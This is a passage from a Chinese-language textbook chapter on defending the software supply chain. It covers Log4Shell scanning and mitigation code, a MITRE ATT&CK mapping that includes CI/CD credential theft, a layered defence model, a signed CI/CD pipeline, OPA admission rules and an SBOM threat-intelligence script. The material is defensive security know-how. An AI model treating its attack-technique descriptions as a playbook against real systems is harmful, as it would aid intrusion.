        'total_images_scanned': len(vulnerable_images),
        'vulnerable_images': vulnerable_images,
        'mitigations_applied': mitigations,
        'recommended_actions': [
            '立即更新到 Log4j 2.17.1+',
            '部署 WAF 规则阻止 JNDI 攻击模式',
            '监控异常出站连接',
            '审查日志寻找攻击痕迹'
        ]
    }

    with open('/tmp/log4shell_incident_report.json', 'w') as f:
        json.dump(report, f, indent=2)

    return report

if __name__ == '__main__':
    print("扫描容器镜像中的 Log4Shell 漏洞……")

    vulnerable = scan_containers_for_log4j()

    if vulnerable:
        print(f"发现 {len(vulnerable)} 个受影响的镜像")
        print("应用紧急缓解措施……")
        mitigations = apply_emergency_mitigations(vulnerable)
        print("生成事件报告……")
        report = generate_incident_report(vulnerable, mitigations)
        print(f"报告已保存至: /tmp/log4shell_incident_report.json")
    else:
        print("未发现受影响的镜像")
```

这段脚本的三个函数对应应急响应的三个动作，各自解决一个具体问题。`scan_containers_for_log4j` 遍历所有本地镜像并逐一交给 trivy 扫描，注意它用 `--pkg-types library` 让扫描深入到库依赖层面，并精确过滤 `CVE-2021-44228`/`CVE-2021-45046` 两个 CVE——这正是应对"漏洞藏在依赖树深处"的关键，只看应用声明是找不到的。`apply_emergency_mitigations` 通过给镜像叠加一层设置 `formatMsgNoLookups` JVM 参数的 Dockerfile 来快速止血，这一步之所以能"快"，是因为它不改动应用代码，只注入环境变量；但代码注释同时钉出了它的边界——此法仅对 Log4j 2.10+ 有效，更低版本必须移除 JndiLookup 类。`generate_incident_report` 最后把结果落成结构化报告，其 `recommended_actions` 里把"立即更新到 2.17.1+"列在首位，正是在提醒：JVM 参数只是缓解，正式升级才是根治。生产环境中最危险的做法，就是止血成功后就此止步，把临时缓解当成最终修复。

适用边界：JVM 参数缓解仅适用于 Log4j 2.10+；更低版本需移除 JndiLookup 类或直接升级。

关键约束：紧急缓解措施可能影响合法的日志格式化功能；正式修复仍需升级到安全版本。

常见误区：一是仅修复直接依赖中的 Log4j，忽略间接依赖（如 Spring Boot Starter 内嵌的版本）；二是认为缓解措施等同于修复，未跟进正式版本升级。

验证方法：使用 JNDI 测试载荷验证缓解措施有效性；扫描 WAF 日志确认攻击流量被阻断。

运行指标：Log4j 相关 CVE 的修复覆盖率；WAF 拦截的 JNDI 攻击尝试次数；应急缓解措施的持续时间（超期未正式修复触发告警）。

---

## 7.2.3 攻击杀伤链模型

### MITRE ATT&CK 供应链攻击战术映射

五个案例各有其手法，但若只停留在个案层面，防御就永远是"打地鼠"。把这些攻击手法归位到 MITRE ATT&CK 这样的通用战术框架，好处在于：无论攻击者具体用什么工具，其战术阶段（初始访问、执行、持久化……）是相对稳定的，围绕战术阶段设计检测，就能获得比逐个案例应对更系统的覆盖。下表正是把供应链攻击的各阶段与 ATT&CK 的技术编号、检测方法对齐。

将供应链攻击映射到 MITRE ATT&CK 框架有助于系统化设计检测机制。表中检测方法需结合 SIEM/SOAR 平台和运行时安全工具实现自动化——单一检测手段覆盖有限，应组合使用。

| 战术阶段 | ATT&CK ID | 技术示例 | 检测方法 |
|---------|-----------|---------|---------|
| 初始访问 | T1195.001 | 依赖与开发工具入侵（Compromise Software Dependencies and Development Tools）[9] | 依赖哈希验证、SBOM 对比、异常提交检测 |
| 初始访问 | T1195.002 | 分发软件被入侵（Compromise Software Supply Chain）[9] | 制品签名与溯源验证、更新通道完整性校验 |
| 执行 | T1059 | 恶意脚本执行 | 脚本完整性检查 |
| 持久化 | T1554 | 编译器后门 | 构建环境基线监控 |
| 防御规避 | T1027 | 代码混淆 | 静态分析、行为监控 |
| 凭证访问 | T1552.001 | CI/CD 凭证窃取 | 环境变量监控 |
| 横向移动 | T1072 | 软件更新劫持 | 更新签名验证 |
| 影响 | T1485 | 数据破坏 | 数据完整性监控 |

这张表是一张"案例—检测"的对账单：SolarWinds 对应 T1195.002 与 T1554（被入侵的分发软件、编译器/构建后门），Codecov 对应 T1059 与 T1552.001（恶意脚本、CI 凭证窃取），event-stream 与 XZ 对应 T1195.001 与 T1027（依赖与开发工具被篡改、代码混淆），软件更新劫持则落在 T1072。每一行的"检测方法"一列，几乎都能在前文某个案例的防御措施里找到对应实现——脚本完整性检查即 Codecov 那节的哈希校验，依赖哈希验证/SBOM 对比即 event-stream 与 Log4Shell 那节的思路。这也印证了表下那句提示：没有任何单一检测手段能覆盖整条杀伤链，必须让 SIEM/SOAR 与运行时工具组合起来，逐阶段布防。

### 防御纵深架构

ATT&CK 映射告诉我们"每个战术阶段都要有检测"，落到工程上就需要一个分层的防御架构——每一层守住软件交付的一个环节，且各层相互独立，任何一层被突破，后续层仍能兜底。下面这张七层模型自底向上，恰好对应了从源码到运行时的完整交付链路：

供应链安全防御需要在多个层面建立控制。各层控制应相互独立又协同工作——某一层被突破时，其他层仍能提供检测或阻断能力：

```
┌─────────────────────────────────────────────────────────────────┐
│                    供应链安全防御层                              │
└─────────────────────────────────────────────────────────────────┘

    ┌───────────────────────────────────────────────────────────┐
    │ Layer 7: 监控与响应                                        │
    │ - SIEM 集成 / 威胁情报 / 事件响应                          │
    └───────────────────────────────────────────────────────────┘
                                ↓
    ┌───────────────────────────────────────────────────────────┐
    │ Layer 6: 运行时保护                                        │
    │ - 容器运行时安全 / 行为分析 / 异常检测                     │
    └───────────────────────────────────────────────────────────┘
                                ↓
    ┌───────────────────────────────────────────────────────────┐
    │ Layer 5: 部署验证                                          │
    │ - 准入控制 (OPA/Kyverno) / 签名验证 (Cosign) / 策略执行   │
    └───────────────────────────────────────────────────────────┘
                                ↓
    ┌───────────────────────────────────────────────────────────┐
    │ Layer 4: 分发安全                                          │
    │ - 制品签名 / 镜像仓库安全 / 传输加密                       │
    └───────────────────────────────────────────────────────────┘
                                ↓
    ┌───────────────────────────────────────────────────────────┐
    │ Layer 3: 构建完整性                                        │
    │ - Hermetic builds / SLSA 证明 / 构建环境隔离               │
    └───────────────────────────────────────────────────────────┘
                                ↓
    ┌───────────────────────────────────────────────────────────┐
    │ Layer 2: 依赖管理                                          │
    │ - SCA 扫描 / SBOM 生成 / 许可证合规                        │
    └───────────────────────────────────────────────────────────┘
                                ↓
    ┌───────────────────────────────────────────────────────────┐
    │ Layer 1: 源代码安全                                        │
    │ - 代码审计 / SAST 扫描 / 提交签名                          │
    └───────────────────────────────────────────────────────────┘
```

这张图七层从下往上，就是软件从源码走向运行的时间顺序——Layer 1 源代码、Layer 2 依赖、Layer 3 构建、Layer 4 分发、Layer 5 部署、Layer 6 运行时、Layer 7 监控。它的价值不在于罗列工具，而在于揭示"纵深"二字的含义：前文每个案例失守，往往是因为把宝押在了单独一层。SolarWinds 攻破了 Layer 3（构建完整性），若只靠 Layer 4 的签名就束手无策，但一个健全的架构里，Layer 5 的准入控制与 Layer 6 的运行时行为分析仍有机会在部署或运行阶段捕获异常。反过来，Log4Shell 这类问题起于 Layer 2（依赖），而 Layer 7 的监控与响应是发现攻击痕迹的最后依托。这张图与上面的 ATT&CK 表互为经纬：ATT&CK 回答"要检测哪些战术"，纵深架构回答"这些检测应该布置在哪一层"。

适用边界：ATT&CK 映射适用于具备威胁检测能力的组织；防御纵深架构适用于有多阶段软件交付流程的组织。对于仅使用 SaaS 产品、无自建软件的组织，重点应放在供应商评估而非内部构建控制。

关键约束：七层防御模型需要相应的工具和人员投入；各层工具间可能存在告警重复或覆盖空白，需要统一的告警聚合机制。

常见误区：一是将 ATT&CK ID 作为检测规则直接部署，忽略环境适配和误报调优；二是防御层级建设不均衡，过度投入源代码安全而忽视运行时保护。

---

## 7.2.4 自动化防御实施

### 完整的 CI/CD 安全管道

前面各案例的防御措施是零散的控制点，本节要把它们串成一条可运行的流水线。之所以选择在 CI/CD 中集中落地，是因为 CI/CD 是软件从代码变为可部署制品的必经之路——把安全检查嵌入这条路径，就能在制品发布前形成一道自动、强制、不可绕过的关卡，而不必依赖开发者的自觉。下面这份配置把源码扫描、依赖检查、构建签名、镜像扫描、策略验证、部署审批六个阶段串成一条链，其核心设计是用 `needs` 建立严格的前置依赖，任一环节失败即熔断后续：

以下 GitHub Actions 配置展示了六阶段安全流水线，依次覆盖源代码扫描、依赖检查、镜像构建、制品签名、集成测试与部署审批。关键设计决策：各阶段通过 `needs` 设置严格的前置依赖关系，任一阶段失败均阻断后续流程：

```yaml
# .github/workflows/secure-pipeline.yaml
name: Secure Supply Chain Pipeline

on:
  push:
    branches: [main, develop]
  pull_request:
    branches: [main]

env:
  REGISTRY: ghcr.io
  IMAGE_NAME: ${{ github.repository }}

jobs:
  # 阶段 1: 源代码安全（提交签名 + SAST + 密钥扫描）
  source-security:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      security-events: write   # CodeQL 上传扫描结果所需
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0

      - name: Verify commit signatures
        run: git log --show-signature -10

      - name: Initialize CodeQL
        uses: github/codeql-action/init@v3
        with:
          languages: javascript  # 按项目实际语言调整

      - name: Run SAST scan
        uses: github/codeql-action/analyze@v3

      - name: Check for secrets
        uses: trufflesecurity/trufflehog@main
        with:
          path: ./
          base: ${{ github.event.repository.default_branch }}
          head: HEAD

  # 阶段 2: 依赖安全（SBOM 生成 + SCA 扫描）
  dependency-security:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Generate SBOM
        uses: anchore/sbom-action@v0
        with:
          path: ./
          format: cyclonedx-json
          output-file: sbom.cyclonedx.json

      - name: Scan dependencies
        uses: aquasecurity/trivy-action@0.24.0
        with:
          scan-type: 'fs'
          scan-ref: '.'
          format: 'sarif'
          output: 'trivy-results.sarif'
          severity: 'CRITICAL,HIGH'

      - name: Upload SBOM
        uses: actions/upload-artifact@v4
        with:
          name: sbom
          path: sbom.cyclonedx.json

      - name: Check for malicious packages
        run: npx @socketsecurity/cli scan

  # 阶段 3: 安全构建（镜像构建 + Cosign 签名 + SLSA 证明）
  secure-build:
    needs: [source-security, dependency-security]
    runs-on: ubuntu-latest
    permissions:
      contents: read
      packages: write
      id-token: write   # Cosign keyless 签名需要 OIDC token
    outputs:
      # 暴露镜像与不可变 digest，供下游 SLSA generator job 消费
      image: ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}
      digest: ${{ steps.build.outputs.digest }}

    steps:
      - uses: actions/checkout@v4

      - name: Set up Docker Buildx
        uses: docker/setup-buildx-action@v2

      - name: Log in to registry
        uses: docker/login-action@v2
        with:
          registry: ${{ env.REGISTRY }}
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}

      - name: Extract metadata
        id: meta
        uses: docker/metadata-action@v4
        with:
          images: ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}
          tags: |
            type=ref,event=branch
            type=ref,event=pr
            type=semver,pattern={{version}}
            type=sha,prefix={{branch}}-
            # 额外生成完整 SHA 标签（无前缀），即 :${{ github.sha }}，
            # 供后续扫描/验证阶段按稳定标签引用同一镜像
            type=sha,prefix=,format=long

      - name: Build and push image
        id: build
        uses: docker/build-push-action@v4
        with:
          context: .
          push: true
          tags: ${{ steps.meta.outputs.tags }}
          labels: ${{ steps.meta.outputs.labels }}
          cache-from: type=gha
          cache-to: type=gha,mode=max
          provenance: true
          sbom: true

      - name: Install Cosign
        uses: sigstore/cosign-installer@v3

      - name: Sign container image
        # 使用 digest 而非 tag，确保签名与特定镜像内容绑定
        run: |
          cosign sign --yes \
            ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}@${{ steps.build.outputs.digest }}

  # 阶段 3b: SLSA 溯源生成
  # generator 是 reusable workflow，必须作为独立 job 通过 job 级 uses 调用，
  # 由 needs 依赖 secure-build 并用 with 传入其输出的 image 与 digest
  provenance:
    needs: secure-build
    permissions:
      actions: read
      id-token: write
      packages: write
    uses: slsa-framework/slsa-github-generator/.github/workflows/generator_container_slsa3.yml@v1.9.0
    with:
      image: ${{ needs.secure-build.outputs.image }}
      digest: ${{ needs.secure-build.outputs.digest }}
    secrets:
      registry-username: ${{ github.actor }}
      registry-password: ${{ secrets.GITHUB_TOKEN }}

  # 阶段 4: 镜像安全扫描
  image-security:
    needs: [secure-build, provenance]
    runs-on: ubuntu-latest
    permissions:
      contents: read
      security-events: write   # 上传 SARIF 结果所需
    steps:
      - name: Run Trivy vulnerability scanner
        uses: aquasecurity/trivy-action@0.24.0
        with:
          image-ref: ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}:${{ github.sha }}
          format: 'sarif'
          output: 'trivy-image-results.sarif'
          severity: 'CRITICAL,HIGH'

      - name: Upload scan results to GitHub Security
        uses: github/codeql-action/upload-sarif@v3
        with:
          sarif_file: 'trivy-image-results.sarif'

      - name: Fail on critical vulnerabilities
        uses: aquasecurity/trivy-action@0.24.0
        with:
          image-ref: ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}:${{ github.sha }}
          exit-code: '1'
          ignore-unfixed: true
          severity: 'CRITICAL'

  # 阶段 5: 策略验证（签名 + SLSA 证明 + OPA 策略）
  policy-check:
    needs: image-security
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Install Cosign
        uses: sigstore/cosign-installer@v3

      - name: Verify image signature
        run: |
          cosign verify \
            --certificate-identity-regexp="^https://github.com/${{ github.repository }}" \
            --certificate-oidc-issuer="https://token.actions.githubusercontent.com" \
            ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}:${{ github.sha }}

      - name: Verify SLSA provenance
        run: |
          cosign verify-attestation \
            --type slsaprovenance \
            --certificate-identity-regexp="^https://github.com/${{ github.repository }}" \
            --certificate-oidc-issuer="https://token.actions.githubusercontent.com" \
            ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}:${{ github.sha }}

      - name: Run OPA policy checks
        # conftest 对结构化配置文件（如 K8s 部署清单）运行策略，
        # 不能把镜像引用当作输入——此处校验待部署的 manifests
        run: |
          docker run --rm -v $(pwd):/project -w /project \
            openpolicyagent/conftest test \
            --policy policies \
            k8s/deployment.yaml

  # 阶段 6: 部署批准（environment 保护规则触发人工审批）
  deployment-gate:
    needs: policy-check
    runs-on: ubuntu-latest
    environment: production
    steps:
      - name: Deployment approved
        run: echo "镜像通过所有安全检查，已批准部署"
```

这份流水线有两条主线。第一条是 `needs` 构成的依赖链——阶段 1、2（源码安全与依赖安全）无前置、可并行，阶段 3 `needs: [source-security, dependency-security]` 必须等前两者都通过才构建；构建完成后由独立的 `provenance` job 生成 SLSA 溯源，此后 4→5→6 逐级串联。这条链的意义是"熔断"：任一阶段失败，其下游全部不执行，从而杜绝了"带病制品"流向部署。第二条主线是它如何逐一回应前文案例：阶段 1 的提交签名与密钥扫描对应源码投毒与凭证泄露；阶段 2 的 SBOM 生成与恶意包检测（`@socketsecurity/cli`）直接呼应 event-stream 与 Log4Shell 的依赖风险；阶段 3 的 Cosign 签名与随后的 SLSA 证明，正是 SolarWinds 教训里"证明代码内容而非仅来源"的落地。此外有几个易被忽略却关键的细节值得点出：`Sign container image` 一步刻意用 `@digest` 而非 tag 签名，因为 tag 可被重新指向不同内容，只有 digest 能把签名死死绑定到确切的镜像内容上；SLSA generator 是一个 **reusable workflow**，不能塞进 `secure-build` 的某个 step 的 `uses:`，而必须作为独立 job 用 job 级 `uses:` 调用、以 `needs` 拿到 `secure-build` 输出的 image 与 digest 再传入；`id-token: write` 权限则是 Cosign keyless 签名与 provenance 签署所需的 OIDC 令牌来源，缺了它无密钥签名无法工作。还要注意后续扫描/验证阶段引用镜像用的是 `:${{ github.sha }}` 标签，这依赖 `docker/metadata-action` 中显式配置的 `type=sha,prefix=,format=long` 才会真正生成，否则该标签并不存在。生产落地时最常见的坑，是把某些扫描步骤设成"仅告警不阻断"，让流水线永远是绿的却起不到关卡作用——注意阶段 4 的 `Fail on critical vulnerabilities` 用 `exit-code: '1'` 才是真正会拦下发布的那一步。



### OPA 供应链策略

上面的流水线在制品发布前把关，但它管不到"绕过 CI 手动推送镜像"的情况。因此还需要一道部署时的防线：OPA 策略运行在 Kubernetes 准入控制层，是任何镜像进入集群前的最后一道门。它的价值在于把安全要求变成代码化、可强制执行的规则，无论镜像从哪条路径来，只要不满足条件就进不了集群。下面六条规则覆盖了签名、漏洞、SLSA 等级、特权、SBOM 与基础镜像来源这几个最核心的检查面：

OPA 策略在 Kubernetes 准入控制层执行，是 CI 阶段检查的最后防线。以下六条规则覆盖了签名、漏洞、SLSA 等级、特权、SBOM 和基础镜像来源的完整检查面：

```rego
# policies/supply_chain.rego
package supply_chain

# 规则 1: 禁止未签名的镜像
deny[msg] {
    not input.signature_verified
    msg := "Image must be signed with Cosign"
}

# 规则 2: 禁止有可修复高危漏洞的镜像（有 fix 却未修复才拒绝，避免无法修复的 CVE 阻断发布）
deny[msg] {
    some i
    vuln := input.vulnerabilities[i]
    vuln.severity == "CRITICAL"
    not vuln.fixed_version == ""
    msg := sprintf("CRITICAL vulnerability %s has available fix", [vuln.id])
}

# 规则 3: 要求 SLSA Level 3+
deny[msg] {
    input.slsa_level < 3
    msg := "Image must have SLSA Level 3 or higher provenance"
}

# 规则 4: 禁止特权容器
deny[msg] {
    input.image_config.privileged == true
    msg := "Privileged containers are not allowed"
}

# 规则 5: 要求 SBOM 存在
deny[msg] {
    not input.sbom_available
    msg := "Image must have an embedded SBOM"
}

# 规则 6: 检查基础镜像来源（只允许来自可信注册表的基础镜像）
deny[msg] {
    base_image := input.base_image
    not startswith(base_image, "cgr.dev/chainguard")
    not startswith(base_image, "gcr.io/distroless")
    not startswith(base_image, "docker.io/library")
    msg := sprintf("Base image %s is not from approved registry", [base_image])
}
```

这段 Rego 里，OPA 采用"默认允许、命中即拒绝"的模型——每条 `deny` 规则只描述"什么情况下必须拒绝"，任何一条命中就阻断部署。六条规则各守一环，且能与前文一一对应：规则 1（未签名拒绝）与规则 3（SLSA Level 3+）是 SolarWinds 教训的准入侧兜底，把"来源可证、内容可溯"从 CI 阶段延伸到集群门口；规则 5（要求 SBOM）呼应 Log4Shell 的可见性缺口；规则 6 用 `startswith` 白名单锁死基础镜像来源，防止未知镜像被引入。其中最值得体会的是规则 2 的务实取舍——它用 `not vuln.fixed_version == ""` 这一条件把拒绝范围收窄到"有可用修复却未修复"的 CRITICAL 漏洞，而不是一刀切拒绝所有 CRITICAL。这背后的工程现实是：部分漏洞在特定技术栈中根本没有修复版本，若策略过严，团队就会被迫大量提交例外申请，最终反而架空了策略本身。生产环境里 OPA 策略最常见的失效，问题不在规则写得不够严，而在严到无法执行、被例外掏空。

规则 2 的设计值得关注：它只拒绝"有可用修复但未修复"的 CRITICAL 漏洞，而不是所有 CRITICAL 漏洞。这是工程上的务实选择——部分漏洞在特定技术栈中没有修复版本，过严的策略会导致大量 false block 和例外申请。

适用边界：OPA 策略适用于 Kubernetes 准入控制；非 K8s 环境需通过其他机制（如 CI 阶段检查）执行策略。

常见误区：一是策略仅在 CI 阶段检查，未在准入控制层执行，导致手动推送绕过检查；二是策略与开发团队沟通不足，导致大量构建失败。

验证方法：尝试部署违反策略的镜像，验证是否被拒绝；审计准入控制日志确认策略覆盖率。

运行指标：策略违规次数（按规则类型分类）；策略例外申请数量；部署成功率（排除因策略拒绝导致的失败）。

---

## 7.2.5 威胁情报集成

### 供应链威胁情报源

到此为止的所有控制都在防"已知的攻击模式"，但供应链威胁在持续演化——新的恶意包、新的被利用漏洞每天都在出现。威胁情报的作用，是把外部世界正在发生的攻击持续喂给自己的防御体系，让"已知威胁"这个集合不断刷新。选择情报源不是越多越好，而应匹配组织的技术栈与预算：下表把常用情报源按类型、覆盖范围、更新频率和接入方式列出，供按需组合。

将威胁情报集成到供应链安全流程中，可实现对已知威胁的主动检测。情报源的选择应基于组织使用的技术栈和预算约束；CISA KEV 和 OSV 为免费公开数据，商业情报源提供更深入分析。

| 情报源 | 类型 | 覆盖范围 | 更新频率 | API 可用性 |
|-------|------|---------|---------|-----------|
| CISA KEV[8] | 官方 | 已被利用漏洞 | 持续更新 | JSON |
| MITRE ATT&CK | 框架 | 战术技术矩阵 | 每年两次（4 月、10 月） | JSON/TAXII |
| OSV Database | 社区 | 开源组件 | 实时 | REST API |
| GitHub Advisory | 平台 | 依赖漏洞 | 实时 | GraphQL |
| Socket.dev | 商业 | 恶意包检测 | 实时 | REST API |
| Snyk Vuln DB | 商业 | 多语言生态 | 实时 | REST API |

这张表里，"覆盖范围"与"更新频率"两列是选型的关键权衡点。CISA KEV 的独特价值在于它只收录"已被实际利用"的漏洞——相比动辄成千上万条的通用漏洞库，它天然排出了处置优先级，回答的是"哪些漏洞正在被真枪实弹地利用"。OSV 与 GitHub Advisory 更新实时、直接面向开源组件与依赖漏洞，适合与 SBOM 关联做自动化匹配。而 Socket.dev 这类商业源专攻恶意包检测，正是应对 event-stream 那种"包本身无已知 CVE、但被植入恶意逻辑"的盲区。表下那句提示点破了务实原则：CISA KEV 与 OSV 免费公开，足以构成基础覆盖，商业源则在预算允许时补充更深入的分析——不必也不该盲目堆砌所有情报源。

### 自动化威胁情报处理

情报源列出来只是原料，真正的挑战是把这些外部情报和自己实际用到的组件对上号——毕竟一条 CVE 只有落到"我的 SBOM 里恰好有这个包"时才需要行动。下面这段代码展示的正是这条关联流水线，其架构上的关键决定是把"获取情报"与"关联 SBOM"两件事解耦，从而让情报源可以独立增删：

以下代码展示了威胁情报聚合与 SBOM 关联的实现思路。核心设计是将情报获取（`fetch_cisa_kev`/`fetch_osv_threats`）与 SBOM 组件关联（`correlate_with_sbom`）解耦，使情报源可独立扩展：

```python
#!/usr/bin/env python3
"""供应链威胁情报聚合与告警系统"""
import requests
import json
from datetime import datetime, timedelta, timezone
from typing import List, Dict
import sqlite3

class SupplyChainThreatIntel:
    def __init__(self, db_path='threat_intel.db'):
        self.db = sqlite3.connect(db_path)
        self.init_database()

    def init_database(self):
        """初始化威胁情报数据库"""
        self.db.execute('''
            CREATE TABLE IF NOT EXISTS threats (
                id TEXT PRIMARY KEY,
                source TEXT,
                severity TEXT,
                package_name TEXT,
                package_ecosystem TEXT,
                description TEXT,
                first_seen TIMESTAMP,
                last_updated TIMESTAMP,
                remediation TEXT
            )
        ''')
        self.db.commit()

    def fetch_cisa_kev(self) -> List[Dict]:
        """获取 CISA 已知被利用漏洞目录，仅返回近 30 天新增的条目"""
        url = "https://www.cisa.gov/sites/default/files/feeds/known_exploited_vulnerabilities.json"
        response = requests.get(url)
        data = response.json()

        threats = []
        for vuln in data['vulnerabilities']:
            date_added = datetime.strptime(vuln['dateAdded'], '%Y-%m-%d')
            if datetime.now() - date_added < timedelta(days=30):
                threats.append({
                    'id': vuln['cveID'],
                    'source': 'CISA KEV',
                    'severity': 'CRITICAL',
                    'description': vuln['vulnerabilityName'],
                    'remediation': vuln['requiredAction'],
                    'deadline': vuln['dueDate']
                })

        return threats

    def fetch_osv_threats(self, ecosystem: str, package: str) -> List[Dict]:
        """查询 OSV 数据库中的威胁"""
        url = "https://api.osv.dev/v1/query"
        payload = {"package": {"name": package, "ecosystem": ecosystem}}

        response = requests.post(url, json=payload)
        data = response.json()

        threats = []
        for vuln in data.get('vulns', []):
            threats.append({
                'id': vuln['id'],
                'source': 'OSV',
                'severity': vuln.get('severity', [{}])[0].get('score', 'UNKNOWN'),
                'package_name': package,
                'package_ecosystem': ecosystem,
                'description': vuln.get('summary', ''),
                'remediation': self._extract_fix_version(vuln)
            })

        return threats

    def correlate_with_sbom(self, sbom_path: str) -> List[Dict]:
        """将威胁情报与 SBOM 中的组件关联"""
        with open(sbom_path) as f:
            sbom = json.load(f)

        all_threats = []

        for component in sbom.get('components', []):
            package_name = component['name']
            ecosystem = self._map_purl_to_ecosystem(component.get('purl', ''))

            threats = self.fetch_osv_threats(ecosystem, package_name)

            for threat in threats:
                threat['affected_component'] = {
                    'name': package_name,
                    'version': component.get('version'),
                    'locations': component.get('locations', [])
                }
                all_threats.append(threat)

        return all_threats

    def generate_alert(self, threats: List[Dict]) -> str:
        """生成告警报告"""
        if not threats:
            return "未发现新威胁"

        critical = [t for t in threats if t['severity'] == 'CRITICAL']
        high = [t for t in threats if t['severity'] == 'HIGH']

        report = f"""
供应链威胁情报告警
{'=' * 60}
时间: {datetime.now(timezone.utc).isoformat()}Z
威胁统计: CRITICAL={len(critical)}, HIGH={len(high)}, TOTAL={len(threats)}

关键威胁（前5条）:
"""
        for threat in critical[:5]:
            report += f"""
  [{threat['id']}] {threat['description']}
    Package: {threat.get('package_name', 'N/A')}
    Source: {threat['source']}
    Remediation: {threat.get('remediation', 'Under investigation')}
"""
        return report

    def _extract_fix_version(self, vuln: Dict) -> str:
        """从漏洞数据中提取修复版本"""
        for affected in vuln.get('affected', []):
            for r in affected.get('ranges', []):
                for event in r.get('events', []):
                    if 'fixed' in event:
                        return event['fixed']
        return 'No fix available'

    def _map_purl_to_ecosystem(self, purl: str) -> str:
        """将 PURL 映射到生态系统标识"""
        mapping = {
            'pkg:maven': 'Maven', 'pkg:npm': 'npm', 'pkg:pypi': 'PyPI',
            'pkg:cargo': 'crates.io', 'pkg:golang': 'Go', 'pkg:nuget': 'NuGet'
        }
        for prefix, ecosystem in mapping.items():
            if purl.startswith(prefix):
                return ecosystem
        return 'Unknown'

if __name__ == '__main__':
    intel = SupplyChainThreatIntel()

    print("检查 CISA 已知被利用漏洞……")
    cisa_threats = intel.fetch_cisa_kev()

    print("分析 SBOM 中的威胁……")
    sbom_threats = intel.correlate_with_sbom('./sbom.cyclonedx.json')

    alert = intel.generate_alert(cisa_threats + sbom_threats)
    print(alert)
```

整个类的骨架就是"抓取—关联—告警"三段。抓取端有两个互不干扰的方法：`fetch_cisa_kev` 拉取 CISA 目录并特意用 `timedelta(days=30)` 只保留近 30 天新增条目——这是一个务实的降噪设计，避免每次运行都把历史全量重新告警一遍；`fetch_osv_threats` 则按"生态+包名"精确查询 OSV。真正把外部情报落到自身风险面的是 `correlate_with_sbom`：它读取 SBOM，逐个组件调用 OSV 查询，命中后把受影响组件的名称、版本、位置回填进威胁记录——正因为遍历的是 SBOM，连藏在依赖树深处的传递依赖也不会漏掉，这正是对 Log4Shell 那种"不知道自己用了什么"困境的直接补救。`_map_purl_to_ecosystem` 是关联能成立的黏合剂：它把 SBOM 里的 PURL 前缀（`pkg:maven`、`pkg:npm` 等）翻译成 OSV 识别的生态标识，没有这一步，包名和情报库就对不上号。"解耦"则体现在结构本身——抓取方法与关联方法彼此独立，未来新增一个情报源只需再写一个 `fetch_*` 方法，不必改动 SBOM 关联逻辑。生产落地时要留意的现实约束是：`correlate_with_sbom` 对每个组件都发一次网络请求，组件数量大时会受 API 速率限制影响，通常需要引入缓存或批量查询来配合。

适用边界：威胁情报系统适用于拥有 SBOM 管理能力的组织；缺乏 SBOM 的组织应先建立组件可见性。

验证方法：注入已知漏洞组件，验证情报系统是否检出；对比多个情报源的检出结果以评估覆盖率。

运行指标：情报获取延迟（从漏洞公开到系统收录的时间差）；SBOM 与情报关联匹配率；误报率。

---

## 7.2.6 实践检查清单

前面五节从案例到自动化，铺陈了大量控制点。落到具体组织时，问题往往不是"要不要做"，而是"从哪里起步、当前处在什么水位"。下面这张分级清单把散落的控制归并成 M1 到 M4 四个成熟度台阶，每一级都是在前一级基础上的加固，可用作自评基线，也可用作演进路线图——先确保 M1 基础防护全部到位，再逐级向上，而非一上来就追求 M4 的高级能力。

| 级别 | 检查项 | 权重 |
|------|--------|------|
| M1 基础防护 | 启用 2FA；实施代码审查；使用依赖锁文件；定期 audit；隔离构建环境 | 25 分 |
| M2 管理防护 | 提交 GPG 签名；集成 SAST；自动化依赖更新；容器化构建环境；基础制品签名 | 25 分 |
| M3 主动防护 | SLSA Build L2+ 证明；依赖防火墙；维护者变更监控；Hermetic Builds；Sigstore 签名；准入控制 | 25 分 |
| M4 优化防护 | AI 驱动异常检测；供应链威胁情报系统；自动化漏洞修复；SLSA Build L3 + 可重现构建等补充控制；客户可验证供应链 | 25 分 |

总分 0-25 = 响应式，26-50 = 管理式，51-75 = 主动式，76-100 = 优化式。

这张表可与前文的案例逐条印证：M1 的"依赖锁文件"正是 event-stream 那节的版本锁定，M1 的"隔离构建环境"对应 SolarWinds 的构建基线；M3 的"维护者变更监控"来自 event-stream，"准入控制"来自 7.2.4 的 OPA 策略；M4 的"供应链威胁情报系统"即上一节所述。四级递进的内在逻辑是从"防住已知的低级失误"（M1）走向"能主动发现未知威胁并让外部可验证"（M4）。底部的评分带把总分翻译成"响应式/管理式/主动式/优化式"四种姿态，其价值不在于算出一个精确分数，而在于让组织诚实地认清自己当前是被动救火还是主动布防。

---

## 本节要点

供应链攻击的核心特征是"力量倍增"——渗透一个供应商可能影响大量下游客户。防御供应链攻击需要在软件生命周期的每个阶段建立检测和防护控制，单一防御层无法应对复杂攻击。

自动化是供应链安全的基础能力要求。人工审查无法扩展到现代软件的依赖规模，必须依赖自动化工具实现 SBOM 生成、依赖扫描、签名验证和策略执行。

威胁情报的价值在于将被动响应转变为主动防御。通过集成多个威胁情报源并与 SBOM 关联，组织可以在攻击发生前获得预警并采取缓解措施。

零信任原则应用于供应链意味着在每个阶段都要验证，不盲目信任任何上游组件或构建产物。签名验证、来源证明（provenance attestation）和准入控制是落地零信任的关键机制。

---

## 参考文献

| # | 来源 | 标题 | 日期 | 链接 |
| --- | --- | --- | --- | --- |
| [1] | CISA | Alert AA20-352A: APT Compromise of Government Agencies, Critical Infrastructure, and Private Sector Organizations | 2020-12-17 | <https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-352a> |
| [2] | CISA | Emergency Directive 21-01: Mitigate SolarWinds Orion Code Compromise | 2020-12-13 | <https://www.cisa.gov/news-events/directives/ed-21-01-mitigate-solarwinds-orion-code-compromise-closed> |
| [3] | Codecov | Bash Uploader Security Update | 2021-04-15 | <https://about.codecov.io/security-update/> |
